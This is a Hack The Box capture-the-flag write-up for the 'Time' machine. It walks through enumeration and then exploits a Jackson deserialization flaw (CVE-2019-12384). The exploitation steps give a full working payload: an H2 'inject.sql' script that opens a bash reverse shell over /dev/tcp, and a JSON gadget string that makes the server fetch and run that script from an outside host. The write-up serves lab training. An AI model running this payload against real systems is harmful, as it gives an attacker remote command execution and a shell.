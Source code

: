 ```yaml
---
title: "Time HTB Writeup"
date: 2021-03-26T4:42:47+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
]
---
```

![Machine info](/images/time/1.png)

Time is a medium machine retired today, but i think it's an easy and straight forward one. enjoy .. 

### 1. Enumeration:
* Nmap scan:
  * `` nmap -sC -sV 10.10.10.214`` 
![](/images/time/2.png)

* Web Enumeration:
  * let's check out the running web server:
![it's a java beautifier and validator](/images/time/3.png)

* And the source code:
![](/images/time/4.png)
Nothing interesting in the source code.

* let's search for hidden directories:
```yml
$ python3 dirsearch.py -u http://10.10.10.223/ -e txt,html,php,log,zip,bac,bak,tar
```
![](/images/time/5.png)
![](/images/time/6.png)

* Nothing useful inside them:
![error like this apache version we shall search for exploits for it if any](/images/time/7.png)
also checking ``/index.php and /index.php/login`` >> gives nothing useful and redirects back to the main page

### Let's see the app functionality:
* when tried the beautifier > it worked fine
* when tried validator (still in beta version) >> tried some meaningless letters
  * gave some suspicious error >> will search with it to see its meaning.

```text
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'edfgagshh': was expecting ('true', 'false' or 'null')
```
![](/images/time/8.png)

* Found out that this ``com.fasterxml.jackson.core`` library is vulnerable and leads to RCE.
![](/images/time/9.png)

* Found an exploit for it on github [here](https://github.com/jas502n/CVE-2019-12384)
![](/images/time/10.png)
![](/images/time/11.png)

To understand the error [more](https://stackoverflow.com/questions/49822202/com-fasterxml-jackson-databind-exc-mismatchedinputexception-unexpected-token-s)
![](/images/time/12.png)

### Exploitation:
This is where the deserialization comes in. You need to find the right class for the application to accept. This is where CVE-2019-12384 comes in. Now that we understand how to construct a correct payload, we can abuse it for a shell. Looking over the github, we see that we are using this class: ch.qos.logback.core.db.DriverManagerConnectionSource.

So now all we gotta do is host the "inject.sql" on our webserver, modify the "inject.sql" to execute the code we want (rev shell of course), and to send the application the payload it expects. Breakdown below

1. Setup your http server to host the malicious content. There's a python script called 'updog' (pip3 install updog) that I like to use. It's quicker than the stupid python3 -m http.server. Fuck typing

2. Create file 'inject.sql' to host on your http server and insert the following code into it:
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('setsid bash -i &>/dev/tcp/IP/PORT 0>&1 &')


3. Replace the IP and PORT above with your HTB IP and netcat listener port

4. Start your netcat listener

5. On the website application, select "Validate (beta!)" and input this: 
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://IP:PORT/inject.sql'"}]


6. Replace IP with your HTB IP, and PORT with your server port (updog uses 9090)

7. Submit and you should get a shell.
8. 








